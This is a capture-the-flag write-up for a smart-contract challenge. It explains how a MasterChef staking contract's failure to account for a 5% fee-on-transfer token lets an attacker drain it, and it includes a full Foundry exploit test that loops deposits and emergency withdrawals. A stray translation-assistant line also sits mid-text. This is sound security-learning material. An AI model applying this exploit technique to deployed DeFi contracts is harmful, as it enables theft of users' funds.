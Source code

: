 ```yaml
---
title: "Mr Steal Yo Crypto — Inflationary Net Worth"
date: 2023-07-22
draft: false
description: "CTF - 9"
tags: ["CTF"]
series: ["CTF"]
series_order: 9
topics: ["CTF"]
showAuthor: false
showAuthorsBadges : false
---
```


This is the #9 challenge of [Mr Steal Yo Crypto](https://mrstealyocrypto.xyz/index.html). I will try to explain how to find the vulnerability.

> A set of challenges to learn offensive security of smart contracts. Featuring interesting challenges loosely (or directly) inspired by real-world exploits.

> Created by [@0xToshii](https://twitter.com/0xToshii)

I used the foundry version for this CTF: [mr-steal-yo-crypto-ctf-foundry](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement)

![Mr Steal Yo Crypto](https://cdn-images-1.medium.com/max/800/1*67w9ffBxLP4AMvoxHowZ2w.jpeg)

## Inflationary Net Worth

There’s a MasterChef contract which accepts MULA tokens and mints MUNY as rewards to stakers.

MULA has a deflationary transfer tax mechanism which burns 5% of each transfer, in order to properly incentivize long-term holders.

Your task is to trick MasterChef into minting you all of the MUNY allocated to all stakers. You start with 10,000 MULA.

- [See the contracts](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement/src/inflationary-net-worth)
- [Complete the challenge](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/9-inflationary-net-worth.sol)

### Review of the contracts

#### MulaToken.sol

This is a basic ERC20 contract except for the fact that there is a fee of 5% per transfer. I think this will be one of the factors for the exploit.

```solidity
/// @dev transferFrom with a 5% transfer tax
function transferFrom(
    address from,
    address to,
    uint256 amount
) public override returns (bool) {
    address spender = _msgSender();
    _spendAllowance(from, spender, amount);

    uint256 tax = amount * 5 / 100;
    _burn(from, tax);

    _transfer(from, to, amount - tax);
    return true;
}

/// @dev transfer with a 5% transfer tax
function transfer(address to, uint256 amount) public override returns (bool) {
    address owner = _msgSender();

    uint256 tax = amount * 5 / 100;
    _burn(owner, tax);

    _transfer(owner, to, amount - tax);
    return true;
}
```

Sure! Here's the translated content with the code blocks in Markdown format:

#### MasterChef.sol

I will only make a few comments on some parts of the code that are useful for the exploit:

- `deposit()`: This function will be used to mint the MUNY token (as seen in the test file at [L130](https://github.com/gp-ngmi/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/9-inflationary-net-worth.sol#L130)). The variable `user.rewardDebt` blocks us from claiming the MUNY in the same block as the deposit().

- `withdraw()`:

```solidity
// Deposit LP tokens to MasterChef for MUNY allocation.
function deposit(uint256 _pid, uint256 _amount) public {
    PoolInfo storage pool = poolInfo[_pid];
    UserInfo storage user = userInfo[_pid][msg.sender];
    updatePool(_pid);
    if (user.amount > 0) {
        uint256 pending = user.amount.mul(pool.accMunyPerShare).div(1e12).sub(user.rewardDebt);
        safeMunyTransfer(msg.sender, pending);
    }
    pool.lpToken.safeTransferFrom(address(msg.sender), address(this), _amount);
    user.amount = user.amount.add(_amount);
    user.rewardDebt = user.amount.mul(pool.accMunyPerShare).div(1e12);
    emit Deposit(msg.sender, _pid, _amount);
}

// Withdraw without caring about rewards. EMERGENCY ONLY.
function emergencyWithdraw(uint256 _pid) public {
    PoolInfo storage pool = poolInfo[_pid];
    UserInfo storage user = userInfo[_pid][msg.sender];
    pool.lpToken.safeTransfer(address(msg.sender), user.amount);
    emit EmergencyWithdraw(msg.sender, _pid, user.amount);
    user.amount = 0;
    user.rewardDebt = 0;
}
```

### Exploit the Vulnerability

Honestly, I didn't know where to start because we "only" need to mint all of the MUNY allocated to all stakers. Before minting all the MUNY allocated, we need to have our balance of MulaToken (= `user.amount`) greater than the balance of MulaToken of the MasterChef contract. For the moment, it's logical if we want to mint all the MUNY.

But how can I do that? At first, the update of `user.amount` was correct for me. Then I remembered that the MulaToken has a 5% fee per transfer, but the contract does not take this parameter into account.

```solidity
// solves the challenge

function testChallengeExploit() public {
    vm.startPrank(attacker, attacker);

    // implement solution here
    // Inside deposit() our balance (user.amount) is increased by _amount
    // However, the token is deflationary, burning 5% of the amount per swap:
    // If we send 10_000e18 in reality, MasterChef will receive 9_500e18 but our balance is increased by 10_000e18
    // So we will be able to withdraw 10_000e18 to MasterChef and we will receive 9_500e18
    // During this operation, the balance of MasterChef will lose 500e18

    // Loop for decreasing the lpSupply inside MasterChef until we are not able to withdraw our amount deposited
    bool first = true;
    uint count;
    uint amount;

    while (mula.balanceOf(address(masterChef)) > amount || first) {
        if (first) {
            first = false;
        } else {
            masterChef.emergencyWithdraw(0);
            console.log("balance attacker - withdraw: ", mula.balanceOf(address(attacker)));
            console.log("balance masterChef - withdraw: ", mula.balanceOf(address(masterChef)));
        }
        amount = mula.balanceOf(address(attacker));
        console.log("amount : ", amount);
        masterChef.deposit(0, mula.balanceOf(address(attacker)));
        ++count;
        console.log("count : ", count);
        console.log("balance attacker - deposit: ", mula.balanceOf(address(attacker)));
        console.log("balance masterChef - deposit: ", mula.balanceOf(address(masterChef)));
    }

    // Here we are not able to withdraw the amount deposited because user.amount > lpSupply
    console.log("balance attacker : ", mula.balanceOf(address(attacker)));
    console.log("balance masterChef : ", mula.balanceOf(address(masterChef)));

    // Withdraw all the lpSupply in order to manipulate pool.accMunyPerShare and be able to claim all the fees after that
    masterChef.withdraw(0, mula.balanceOf(address(masterChef)) - 1);
    console.log("balance masterChef : ", mula.balanceOf(address(masterChef)), "balance user.amount : ", amount - (mula.balanceOf(address(masterChef)) - 1));

    vm.stopPrank();
    validation();
}
```

This challenge was interesting. It taught me to be more careful with variable updates related to token transfers.

Here is the [test file](https://github.com/gp-ngmi/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/9-inflationary-net-worth.sol).

### Acknowledgement

Thank you [https://stermi.xyz/](https://stermi.xyz/) for inspiring me to write articles on CTF ^^.